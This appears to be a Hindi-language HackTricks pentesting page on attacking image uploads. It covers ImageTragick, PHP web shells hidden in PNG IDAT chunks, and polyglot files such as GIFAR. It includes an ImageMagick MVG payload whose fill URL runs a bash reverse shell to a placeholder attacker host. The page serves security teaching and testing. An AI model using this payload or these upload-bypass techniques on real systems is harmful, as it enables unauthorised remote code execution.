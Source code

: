 [https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT)

# ImageTragic

इस सामग्री को एक छवि एक्सटेंशन के साथ अपलोड करें ताकि यह सुरक्षा कमजोरी का उपयोग कर सके **\(ImageMagick, 7.0.1-1\)**
```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
# PGN में PHP शेल एम्बेड करना

IDAT चंक में वेब शेल रखने का प्राथमिक कारण यह है कि इसके पास रीसाइज़ और री-सैंपलिंग ऑपरेशनों को छलने की क्षमता होती है - PHP-GD में इसे करने के लिए दो फ़ंक्शन होते हैं [imagecopyresized](http://php.net/manual/en/function.imagecopyresized.php) और [imagecopyresampled](http://php.net/manual/en/function.imagecopyresampled.php).

इस पोस्ट को पढ़ें: [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

# पॉलीग्लॉट फ़ाइलें

सुरक्षा संदर्भ में, पॉलीग्लॉट फ़ाइलें ऐसी फ़ाइलें हैं जो कई अलग-अलग फ़ाइल प्रकारों के मान्य रूप हैं। उदाहरण के लिए, [GIFAR](https://en.wikipedia.org/wiki/Gifar) एक GIF और RAR फ़ाइल दोनों है। वहां ऐसी भी फ़ाइलें हैं जो GIF और JS, PPT और JS, आदि दोनों हो सकती हैं।

पॉलीग्लॉट फ़ाइलें अक्सर फ़ाइल प्रकार पर आधारित सुरक्षा से बचने के आधार पर सुरक्षा को छलने के लिए उपयोग की जाती हैं। बहुत सारे ऐप्लिकेशन उपयोगकर्ताओं को केवल निश्चित प्रकारों जैसे JPEG, GIF, DOC जैसी फ़ाइलें अपलोड करने की अनुमति देते हैं, ताकि उपयोगकर्ताओं को JS फ़ाइलें, PHP फ़ाइलें या Phar फ़ाइलें जैसी संभावित खतरनाक फ़ाइलें अपलोड करने से रोका जा सके।

इससे ऐसी फ़ाइल को अपलोड करने में मदद मिलती है जो कई अलग-अलग प्रारूपों के साथ मेल खाती है। यह आपको एक PHAR फ़ाइल (PHp ARchive) को अपलोड करने की अनुमति देता है जो एक JPEG की तरह दिखती है, लेकिन शायद आपको एक मान्य एक्सटेंशन की भी आवश्यकता होगी और यदि अपलोड फ़ंक्शन इसे अनुमति नहीं देता है तो यह आपकी मदद नहीं करेगा।

अधिक जानकारी: [https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a)





<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

